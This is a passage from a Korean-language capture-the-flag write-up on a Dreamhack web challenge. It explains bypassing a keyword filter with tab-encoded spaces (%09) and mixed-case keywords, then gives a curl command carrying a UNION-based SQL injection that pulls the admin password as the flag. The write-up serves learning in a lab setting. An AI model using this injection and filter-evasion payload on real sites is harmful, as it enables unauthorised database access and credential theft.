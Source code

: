      <img width="1543" alt="URL_Encoding" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/fb4577a3-3a15-4701-8712-6a75c71f33c9"><br/>
    - 결과를 출력하는 코드를 보면 조건으로 준 ```uid```에 해당하는 모든 컬럼을 가져와 그 중 두 번째 결과를 화면에 출력하고 있음 → UNION 문은 컬럼의 수가 일치해야 하므로 SELECT 다음에 작성하는 열의 순서에서 upw를 두 번째에 위치시킴
    - 이후 공백을 ```%09```로 대체, 각 키워드는 대소문자를 혼용하여 사용함으로써 필터링 검사를 우회함
    
        
<br/><br/>

### 익스플로잇
1. 터미널에서 리눅스 명령어 ```curl```를 사용하여 다음과 같이 입력함
    ```
    curl "http://host3.dreamhack.games:19977/?uid='%09Union%09SelecT%09uid,upw,idx%09FrOm%09user%09Where%09uid='Admin'%09--%09"
    ```

2. 결과를 보면 template 변수의 ```<pre>{result}<pre>``` 부분에 admin 계정의 비밀번호인 플래그가 출력된 것을 볼 수 있음
    <img width="892" alt="bypassWAF_result" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/0ca881a2-6e9b-4ede-b882-263e4161b7e0">
